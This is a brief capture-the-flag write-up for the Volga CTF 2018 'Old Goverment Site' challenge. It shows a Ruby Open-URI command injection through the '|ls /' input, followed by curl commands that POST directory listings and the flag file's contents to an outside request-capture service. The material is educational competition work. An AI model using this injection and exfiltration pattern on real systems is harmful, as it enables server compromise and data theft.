 ## Volga CTF 2018 - Old Goverment Site

1. Pay attention to pages url - *http://old-government-site.quals.2018.volgactf.ru:8080/page?id=33*
2. Let`s use brutefors for a while
3. Page with number 18 looks intesting..

It`s validation form for a garbage cleaning company.

Site working on Sinatra Framework (Ruby)

4. Do you hear something about Ruby Open-Uri vulnerability?

[Read this](http://old-government-site.quals.2018.volgactf.ru:8080/page?id=18)

5. Try to type *|ls /*
6. It`s works!
7. Now we need a something service to get POST request from server.

For example, [pustreq](https://putsreq.com/)

8. It`s looks intresting... 

```bash
curl -d "$(ls -l /)" -X POST https://putsreq.com/your-application/
```

We have a file called **flag**

9. Finally...

```bash
curl -d "$(cat flag)" -X POST https://putsreq.com/your-application/
```

10. Congratulations!

